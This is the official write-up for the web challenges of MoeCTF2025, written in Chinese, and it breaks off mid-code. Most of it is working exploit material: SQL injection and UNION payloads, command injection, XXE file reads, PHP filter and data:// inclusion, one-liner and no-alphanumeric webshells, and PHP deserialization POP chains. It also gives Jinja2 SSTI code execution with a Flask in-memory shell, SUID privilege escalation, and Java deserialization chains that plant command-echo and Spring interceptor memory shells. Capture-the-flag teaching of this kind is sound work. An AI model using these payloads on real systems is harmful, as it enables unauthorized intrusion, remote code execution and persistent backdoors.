




# MoeCTF2025 官方 WriteUp


## 0 Web入门指北
下载附件，查询可知是jsfuck编码。
预期解1：
控制台输入

预期解2：
找到在线jsfuck解码网站



## 01 第一章 神秘的手镯
本题目考察F12的使用和查看网页源代码的能力
预期解1：
查看前端js源代码

预期解2：
下载附件txt文件，以html格式修改即可把文本复制进去



## 02 第二章 初识金曦玄轨
使用F12看到模糊的字，跳转路由到/golden_trail。使用bp抓到/golden_trail路由的包，查看响应包的请求标头即可获得。


## 03 第三章 问剑石！篡天改命！
bp抓包修改，使用GET方法和POST方法分别传输即可。
注意：flag从响应包获取，不要直接看着输入。


## 04 第四章 金曦破禁与七绝傀儡阵
考察对于`get`，`post`，`put`方法，`xff`，`Referer`，`user-agent`，`cookie`的使用。


## 05 第五章 打上门来！
简单的目录穿越

```
../../../../flag
```


## 06 第六章 藏经禁制？玄机初探！
经典`mysql`绕过登录

```
1' OR 1=1 #
```


## 07 第七章 灵蛛探穴与阴阳双生符
根据省流拿到根目录文件`/robots.txt`
```Plain
User-agent: *
Disallow: /flag.php
```
进入`/flag.php`看到
```php
<?php
highlight_file(__FILE__);
$flag = getenv('FLAG');

$a = $_GET["a"] ?? "";
$b = $_GET["b"] ?? "";

if($a == $b){
    die("error 1");
}

if(md5($a) != md5($b)){
    die("error 2");
}

echo $flag;
```
考点为`md5`弱相等，在`php8`版本下，`/?a[]=1&b[]=2`的方式被禁止。

```
# 强相等
/?a=TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak
 &b=TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak
# 弱相等
/?a=QNKCDZO
 &b=240610708
```


## 08 第八章 天衍真言，星图显圣
利用`UNION`，`SELECT`，`FROM`读取`MySQL`数据库内容

```
1' UNION SELECT 1,2 #
# 回显 Welcome 1

1' union select table_name,2 from information_schema.tables where table_schema=database() #
# 回显 Welcome flag

1' union select column_name,2 from information_schema.columns where table_name='flag' #
# 回显 Welcome value

1' union select value,2 from flag #
```


## Moe笑传之猜猜爆
js代码审计，可以得知随机数生成并且储存为一个参数`randomNumber`，直接在控制台里输入这个参数名字即可获得随机数字。


## 摸金偶遇FLAG，拼尽全力难战胜
编写Python脚本即可获得。

exp:
```python
import requests
import time

session = requests.Session()

resp = session.get("http://127.0.0.1:32523/get_challenge?count=9")

challenge = resp.json()
time.sleep(1) 

challenge['answers'] = challenge['numbers']
challenge.pop('numbers')

resp = session.post("http://127.0.0.1:32523/verify", json=challenge)
print(resp.text)
```


## 09 第九章 星墟禁制·天机问路
核心源代码为
```php
<?php
$cmd = $_GET['url'];
system("nslookup " . $cmd);
```
getshell payload:

```
?url=;whoami		// 回显 root
```


## 10 第十章 天机符阵
XXE注入
payload:
```xml
<!DOCTYPE data [
  <!ENTITY abc SYSTEM "file:///var/www/html/flag.txt">
]>
<解析>&abc;</解析>
```

> 10 第十章 天机符阵_revenge只需改动`file://`


## 11 第十一章 千机变·破妄之眼
参数爆破，可以使用`BurpSuite`的`Intruder`进行`Payload`爆破，令参数等于参数名即可
具体参数可以使用`Python`生成

参数爆破正确会接收到如下响应

```
HTTP/1.1 302 Found
Location: find.php
```
打开`/find.php`看到三个文件并且只有`flag.php`正常回显，但并不能看到全部内容（注释中的php不会显示）
我们需要通过编码将他们显示出来

```
find.php?file=php://filter/convert.base64-encode/resource=flag.php
```


## 12 第十二章 玉魄玄关·破妄
一句话木马，蚁剑连接即可，`FLAG`在环境变量中


## 13 第十三章 通幽关·灵纹诡影
图片木马，对文件头和文件后缀进行检验（其实文件头修改后后缀都可以不修改）
上传用bp抓包，然后修改文件头即可。


## 14 第十四章 御神关·补天玉碑
经典的.htaccess文件上传，上传一个.htaccess文件后就可以自动解析指定后缀文件为PHP了。


## 01 第一章_revenge
题目提到：文件修改后有一个备份文件，即可得知访问相关路由/wanyanzhou.txt.bak
获得最新万言咒后根据第一章做法修改进入输入框，使用bp的爆破模块重复发送500份
（特意增加了一个特殊请求头来禁止使用python等其他方式发送）


## 15 第十五章：归真关·竞时净魔
条件竞争，一边使用爆破一直高速上传一个普通木马文件，一边使用爆破访问这个木马文件。


## 16 第十六章：昆仑星途
```php
<?php
include($_GET['file'] . ".php");
```

```
/?file=data://text/plain,<?php system('whoami') ?>
```
传进去之后拼接不受`.php`影响


## 17 第十七章：星骸迷阵·神念重构
PHP反序列化

```php
<?php
class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}
if(isset($_GET['a'])) {
    unserialize($_GET['a']);
}
```

exp:
```php
<?php
class A {
    public $a = "system(\"cat /flag\");";
}
echo urlencode(serialize(new A()));
```


## 18 第十八章：万卷诡阁·功法连环
构造POP链

```php
<?php
class PersonA {
    private $name;
    function __wakeup() {
        $name=$this->name;
        $name->work();
    }
}
class PersonB {
    public $name;
    function work(){
        $name=$this->name;
        eval($name);
    }

}
if(isset($_GET['person'])) {
    unserialize($_GET['person']);
}
```
exp:
```php
<?php
class PersonA {
    private $name;
    function __construct() {
        $this->name = new PersonB();
    }
}
class PersonB {
    public $name="phpinfo();";
}
echo urlencode(serialize(new PersonA()));
```


## 19 第十九章：星穹真相·补天归源
构造POP链（此题有多解）

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}
class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}
class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}
class PersonC extends Person
{
    public function __Check($age)
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}
if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```
exp:
```
<?php
class PersonA
{
    public $name;
    public $id;
    public $age;
}

class PersonB
{
    public $name;
    public $id;
    public $age;
}

class PersonC
{
    public $name;
    public $id;
    public $age;
}

$cmd = "cat /????";

$c = new PersonC();
$c->name = "system";
$c->id = null;

$a = new PersonA();

$a->name = $c;
$a->id = "__Check";

$b = new PersonB();
$b->id = $a;
$b->name = $cmd;

$c->id = $b;

echo urlencode(serialize($c));
?>
```


## 19 第十九章_revenge
```php
<?php
highlight_file(__FILE__);

class Person
{
    public $name;
    public $id;
    public $age;
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $name->$id($this->age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonC extends Person
{
    public function check($age)
    {
        $name=$this->name;
        if($age == null)
        {
            die("Age can't be empty.");
        }
        else if($name === "system")
        {
            die("Hacker!");
        }
        else
        {
            var_dump($name($age));
        }
    }

    public function __wakeup()
    {
        $name = $this->id;
        $name->age = $this->age;
        $name($this);
    }
}

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```
exp:
```php
<?php
class PersonA
{
    public $name;
    public $id;
    public $age;
}

class PersonB
{
    public $name;
    public $id;
    public $age;
}

class PersonC
{
    public $name;
    public $id;
    public $age;
}

$cmd = "/proc/self/environ";
$function = "file_get_contents";

$c = new PersonC();
$c->name = $function;

$a = new PersonA();

$a->name = $c;
$a->id = "check";

$b = new PersonB();
$b->id = $a;
$b->name = $cmd;

$c->id = $b;

echo urlencode(serialize($c));
?>
```


## 20 第二十章：幽冥血海·幻语心魔 
无限制`SSTI`

```jinja2
{{lipsum.__globals__['os']['popen']('whoami').read()}}
```


## 21 第二十一章：往生漩涡·言灵死局
简单限制`SSTI` 

```jinja2

```


## 22 第二十二章：血海核心·千年手段
无回显`SSTI`

无回显大概有两种方法：
1. 通过`static/`回显

```jinja2
{{lipsum.__globals__['os']['popen']('mkdir static; whoami > ./static/out.txt')}}
```
直接就能通过`http://ip:port/static/out.txt`访问到
2. 打内存马
```jinja2
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.form.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.form.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']})}}
```
然后通过`/?cmd=whoami` `RCE`

然后发现由于权限不足，`flag`文件不可读
尝试`SUID`提权，通过`find / -perm -4000`拿到具有`SUID`权限的命令
注意到`/usr/bin/rev`，尝试正常提权，发现并没有回显。

通过`base64`、`xxd`、`hexdump`等方式读取`/usr/bin/rev`
或者你通过找寻目录注意到环境编译遗留下来并未及时清除的`rev.c`
都可以拿到源码：
```c
#include <unistd.h>
#include <string.h>

int main(int argc, char **argv) {

    for(int i = 1; i + 1 < argc; i++) {
        if (strcmp("--HDdss", argv[i]) == 0) {
            execvp(argv[i + 1], &argv[i + 1]);
        }
    }

    return 0;
}
```
`payload:`
```sh
rev --HDdss whoami	#root
```


## 这是...Webshell?
禁止了数字字母，经典无数字字母webshell。
其中有两个主要的思路：
1.利用位运算
2.利用自增运算符
exp1:
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
exp2:
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```


## 这是...Webshell? _revenge
禁止了数字字母、下划线、美元符号，防止构造参数。
具体原理不过多赘述，直接上exp。
exp:
```http
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 19.19.8.10:114514
Content-Type: multipart/form-data; boundary=---------110

-----------110
Content-Disposition: form-data; name="file"; filename="1.txt"

#!/bin/sh

env
-----------110--
```


## 23 第二十三章：幻境迷心·皇陨星沉(大结局)
非常基础的java反序列化，大概能知道java反射，类加载，urldns链基本就可以。
因为题目不出网，23章提供跳板机反弹shell, 附加挑战只能用回显技术打。

反弹shell：
```
调用链HashMap#readObject()->DogService#chainWagTail()->Dog#wagTail()
```

exp:

```java
import com.example.demo.Dog.Dog;
import com.example.demo.Dog.DogService;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Exp {
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
    public static void deserialize(String base64Data) throws IOException,ClassNotFoundException {
        ByteArrayInputStream bais=new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();


    }
    public static Dog setDog(Object i,String m,Class[] p,Object[] a) throws NoSuchFieldException,IllegalAccessException{
        Dog dog = new Dog(2,"sss,","sss",2);
        Field input = Dog.class.getDeclaredField("object");
        input.setAccessible(true);
        input.set(dog,i);
        Field methodName=Dog.class.getDeclaredField("methodName");
        methodName.setAccessible(true);
        methodName.set(dog,m);
        Field paramTypes=Dog.class.getDeclaredField("paramTypes");
        paramTypes.setAccessible(true);
        paramTypes.set(dog,p);
        Field arg =Dog.class.getDeclaredField("args");
        arg.setAccessible(true);
        arg.set(dog,a);
        return dog;
    }


    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Map<Object, Object> map = new HashMap<>();
        Dog dog1 = setDog(Runtime.class,"getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null});
        Dog dog2 = setDog(Runtime.class,"invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null});
        Dog dog3 = setDog(Runtime.class,"exec", new Class[]{String.class}, new Object[]{"calc"});
        DogService dogService = new DogService();
        Field dogs = dogService.getClass().getDeclaredField("dogs");
        dogs.setAccessible(true);
        Map<Integer, Dog> dogs2 = (Map<Integer, Dog>) dogs.get(dogService);

        Dog dog4 = setDog(dogService,"chainWagTail",new Class[]{},new Object[]{});

        dogs2.put(1,dog1);
        dogs2.put(2,dog2);
        dogs2.put(3,dog3);
        map.put(dog4,"ssss");

        String aa=serialize(map);
        System.out.println(aa);
        deserialize(aa);


    }
}
```

TemplatesImpl动态加载类，恶意类也可以反弹shell, 这里只用来研究回显，当然还有其他的回显技术


## 附加挑战
```
HashMap#readObject()->Dog#wagTail()->Templateslmpl#newTransformer0->Templateslmpl#getTransletlnstance0->Templateslmpl#defineTransletClasses0->Templateslmpl.TransletClassLoadler#defineClass()->ClassLoader#defineclass0
```
exp:
```java
//Exp.java
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

import java.util.Base64;


import com.example.demo.Dog.Dog;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

public class Exp {
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }
    public static void deserialize(String base64Data) throws IOException,ClassNotFoundException {
        ByteArrayInputStream bais=new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();


    }

    public static void setField(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {


        byte[] evilBytecode = Files.readAllBytes(Paths.get("E:\\demo3\\target\\classes\\Inject_ThreadLocal.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_bytecodes", new byte[][] { evilBytecode });
        setField(templates, "_name", "aaa");
        setField(templates, "_tfactory", new TransformerFactoryImpl());


        Dog dog = new Dog(2,"sss,","sss",2);


        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(dog,null);
        setField(dog, "object", templates);
        setField(dog, "methodName", "newTransformer");
        setField(dog, "paramTypes", new Class[0]);
        setField(dog, "args", new Object[0]);

        String a = serialize(hashMap);

        System.out.println(a);

    }
}
```


### ThreadLocal回显
```java
//Inject_ThreadLocal.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationFilterChain;

import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Scanner;

public class Inject_ThreadLocal extends AbstractTranslet {

    static {
        try {

            //反射获取所需属性
            java.lang.reflect.Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            java.lang.reflect.Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            java.lang.reflect.Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //使用modifiersField反射修改final型变量
            java.lang.reflect.Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);

            //将变量WRAP_SAME_OBJECT_FIELD设置为true，并初始化lastServicedRequest和lastServicedResponse变量
            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null)) {
                WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
            }

            if (lastServicedRequestField.get(null) == null) {
                lastServicedRequestField.set(null, new ThreadLocal<>());
            }

            if (lastServicedResponseField.get(null) == null) {
                lastServicedResponseField.set(null, new ThreadLocal<>());
            }
            ServletRequest servletRequest=null;
            if(lastServicedRequestField.get(null)!=null) {

                ThreadLocal threadLocal = (ThreadLocal) lastServicedRequestField.get(null);
               servletRequest = (ServletRequest) threadLocal.get();
            }

            //获取response变量
            if (lastServicedResponseField.get(null) != null) {
                ThreadLocal threadLocal = (ThreadLocal) lastServicedResponseField.get(null);
                ServletResponse servletResponse = (ServletResponse) threadLocal.get();
                PrintWriter writer = servletResponse.getWriter();
                Scanner scanner = new Scanner(Runtime.getRuntime().exec(servletRequest.getParameter("cmd")).getInputStream()).useDelimiter("\\A");
                String result = scanner.hasNext()?scanner.next():"";
                scanner.close();
                writer.write(result);
                writer.flush();
                writer.close();
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


### Interceptor内存马
```java
//Inject_ThreadLocal.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;

import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;

import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.tools.*;
import java.io.*;

import java.lang.reflect.Field;

import java.net.URL;
import java.net.URLClassLoader;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.*;
import java.util.jar.JarEntry;
import java.util.jar.JarFile;

public class Inject_ThreadLocal extends AbstractTranslet {
    public static Class<?> createShellInterceptor() throws Exception {
        String className = "DynamicShellInterceptor";
        String packageName = "com.dynamic.generated";
        String fullClassName = packageName + "." + className;

        String sourceCode = buildShellSourceCode(packageName, className);

        // 创建临时目录
        Path tempDir = Files.createTempDirectory("dynamic_classes");
        Path sourceDir = tempDir.resolve("src");
        Path classDir = tempDir.resolve("classes");
        Files.createDirectories(sourceDir);
        Files.createDirectories(classDir);

        // 写入源码文件
        Path sourceFile = sourceDir.resolve(className + ".java");
        Files.write(sourceFile, sourceCode.getBytes());

        // 编译
        JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
        DiagnosticCollector<JavaFileObject> diagnostics = new DiagnosticCollector<>();

        try (StandardJavaFileManager fileManager = compiler.getStandardFileManager(diagnostics, null, null)) {
            Iterable<? extends JavaFileObject> compilationUnits =
                fileManager.getJavaFileObjects(sourceFile.toFile());

            File tempLibDir = Files.createTempDirectory("boot-libs").toFile();
            String bootInfClasspath = extractBootInfLibs(new File("/app/demo.jar"), tempLibDir);

            List<String> options = Arrays.asList(
                "-d", classDir.toString(),
                "-classpath", bootInfClasspath
            );

            JavaCompiler.CompilationTask task = compiler.getTask(
                null, fileManager, diagnostics, options, null, compilationUnits);

            if (!task.call()) {
                throw new RuntimeException("编译失败: " + diagnostics.getDiagnostics());
            }

            // 加载类
            URLClassLoader classLoader = new URLClassLoader(
                new URL[]{classDir.toUri().toURL()},
                Inject_ThreadLocal.class.getClassLoader()
            );

            return classLoader.loadClass(fullClassName);
        } finally {
            // 清理临时文件

        }
    }
    public static String extractBootInfLibs(File bootJar, File extractToDir) throws IOException {
        List<String> jarPaths = new ArrayList<>();

        try (JarFile jarFile = new JarFile(bootJar)) {
            Enumeration<JarEntry> entries = jarFile.entries();

            while (entries.hasMoreElements()) {
                JarEntry entry = entries.nextElement();
                if (entry.getName().startsWith("BOOT-INF/lib/") && entry.getName().endsWith(".jar")) {
                    // 提取JAR文件
                    String jarName = entry.getName().substring("BOOT-INF/lib/".length());
                    File outputJar = new File(extractToDir, jarName);

                    // 确保父目录存在
                    outputJar.getParentFile().mkdirs();

                    try (InputStream is = jarFile.getInputStream(entry);
                         OutputStream os = new FileOutputStream(outputJar)) {
                        // 使用传统的流复制方法
                        byte[] buffer = new byte[8192];
                        int bytesRead;
                        while ((bytesRead = is.read(buffer)) != -1) {
                            os.write(buffer, 0, bytesRead);
                        }
                    }

                    jarPaths.add(outputJar.getAbsolutePath());
                }
            }
        }

        return String.join(File.pathSeparator, jarPaths);
    }

    private static String buildShellSourceCode(String packageName, String className) {
        return "package " + packageName + ";\n\n" +
            "import javax.servlet.http.HttpServletRequest;\n" +
            "import javax.servlet.http.HttpServletResponse;\n" +
            "import org.springframework.web.servlet.HandlerInterceptor;\n" +
            "import org.springframework.web.servlet.ModelAndView;\n" +
            "import java.io.PrintWriter;\n" +
            "import java.util.Scanner;\n\n" +
            "public class " + className + " implements HandlerInterceptor {\n\n" +
            "    @Override\n" +
            "    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {\n" +
            "        String cmd = request.getParameter(\"cmd\");\n" +
            "        if (cmd != null && !cmd.trim().isEmpty()) {\n" +
            "            try {\n" +
            "                Process process = Runtime.getRuntime().exec(cmd);\n" +
            "                PrintWriter writer = response.getWriter();\n" +
            "                Scanner scanner = new Scanner(process.getInputStream()).useDelimiter(\"\\\\A\");\n" +
            "                String result = scanner.hasNext() ? scanner.next() : \"\";\n" +
            "                scanner.close();\n" +
            "                writer.write(result);\n" +
            "                writer.flush();\n" +
            "                writer.close();\n" +
            "                return false; // 不再继续执行后续拦截器\n" +
            "            } catch (Exception e) {\n" +
            "                e.printStackTrace();\n" +
            "            }\n" +
            "        }\n" +
            "        return true; // 继续执行后续拦截器\n" +
            "    }\n\n" +
            "    @Override\n" +
            "    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {\n" +
            "        // 可选的后处理逻辑\n" +
            "    }\n\n" +
            "    @Override\n" +
            "    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {\n" +
            "        // 清理资源\n" +
            "    }\n" +
            "}";
    }
    static {
        try {
            //获取当前上下文环境
//        WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

            // 通过 context 获取 RequestMappingHandlerMapping 对象
            AbstractHandlerMapping abstractHandlerMapping = (AbstractHandlerMapping) context.getBean(RequestMappingHandlerMapping.class);
            Field field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
